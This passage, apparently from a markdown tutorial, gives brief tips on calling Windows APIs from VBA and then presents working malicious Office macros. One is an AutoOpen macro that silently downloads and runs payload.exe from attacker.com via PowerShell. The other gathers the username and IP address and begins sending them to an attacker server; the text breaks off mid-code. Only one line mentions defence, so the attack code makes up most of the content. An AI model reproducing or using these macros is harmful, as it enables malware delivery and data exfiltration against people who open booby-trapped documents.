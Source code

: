 
## **Tips for Using Windows APIs Safely in VBA**

1. **Test in a Sandbox**: Incorrect API usage can crash your system. Always test in a controlled environment.
2. **Error Handling**: Use error handling (`On Error GoTo`) to catch unexpected issues.
3. **64-bit Compatibility**: Use the `PtrSafe` keyword for 64-bit versions of Office.
4. **Refer to Documentation**: Check the [Microsoft Windows API documentation](https://learn.microsoft.com/en-us/windows/win32/api/) for function details.

---

### No Need To Do that Manually but its good to know How!

### **1. VBA Macro to Download and Execute a Payload (Reverse Shell)**

This macro downloads a **malicious executable (payload)** from a remote server and executes it on the victim’s machine.

```vbnet
Sub AutoOpen()
    ' This macro will run automatically when the document is opened (if security allows).
    Dim obj As Object
    Set obj = CreateObject("Wscript.Shell")

    ' Download payload from remote server using PowerShell.
    obj.Run "powershell.exe -Command ""Invoke-WebRequest -Uri '<http://attacker.com/payload.exe>' -OutFile 'C:\\Users\\Public\\payload.exe'""", 0, True

    ' Execute the payload silently.
    obj.Run "C:\\Users\\Public\\payload.exe", 0, False
End Sub
```

- **AutoOpen()**: Automatically runs the macro when the document is opened.
- **Wscript.Shell**: Allows execution of commands (e.g., running PowerShell).
- **Invoke-WebRequest**: Downloads a payload from a remote server.

> Note: Defenders can mitigate this attack with macro security settings and endpoint protection tools.

---

### **2. Enumerating System Information Using VBA**

This macro collects **system information** (like username and IP address) and sends it back to an attacker-controlled server for reconnaissance.

```vbnet
Sub SystemInfo()
    Dim username As String
    Dim ipAddress As String
    Dim url As String
    Dim obj As Object

    ' Get the username.
    username = Environ("USERNAME")

    ' Get IP address using PowerShell.
    Set obj = CreateObject("Wscript.Shell")
    ipAddress = obj.Exec("powershell.exe -Command ""(Get-NetIPAddress | Select-Object -First 1).IPAddress""").StdOut.ReadAll

    ' Send the information to the attacker's server.
    url = "<http://attacker.com/log.php?user=>" & username & "&ip=" & ipAddress
```